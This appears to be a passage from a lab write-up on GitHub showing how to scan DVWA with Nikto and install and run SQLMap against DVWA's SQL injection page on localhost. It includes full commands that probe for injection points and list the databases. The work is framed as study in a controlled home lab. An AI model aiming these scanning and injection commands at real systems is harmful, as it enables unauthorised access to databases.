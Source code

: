 sudo nikto -h http://localhost/DVWA Nikto will run various tests and show any vulnerabilities.


![Picture18](https://github.com/user-attachments/assets/7df34a51-96ad-4b80-b1fc-0bfaedf59b95)

Installing SQLMap: 

SQLMap is an open-source penetration testing tool used to detect and exploit SQL injection vulnerabilities in web applications. 

# Updating Package Repository

sudo apt update

# Installing Required Dependencies

sudo apt install python3 python3-pip git -y

Cloning the SQLMap Repository

Use Git to clone the SQLMap repository from GitHub:
git clone https://github.com/sqlmapproject/sqlmap.git

This will create a directory named sqlmap in your current directory.

Navigating to the SQLMap Directory:

Change to the directory where SQLMap was cloned:

cd sqlmap

Running SQLMap

python3 sqlmap.py -h

# Testing Web Security Attacks in a Controlled Environment

To deepen understanding, the knowledge was tested in a controlled, home network environment. DVWA (Damn Vulnerable Web Application) was used to simulate these attacks without risking real-world harm.

# TESTING FOR VULNERABILITY IN THE WEB APPLICATION USING SQLMap To identify any possible injection points

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --batch --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low"

![Picture19](https://github.com/user-attachments/assets/04edeee2-868a-4d48-84db-147f18c12731)

# RETRIEVING DATABASES USING SQLMAP

python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=5&Submit=Submit#" --batch --cookie="PHPSESSID=4ts7s0q1n1lecbb56jgsjsujpp; security=low" --dbs
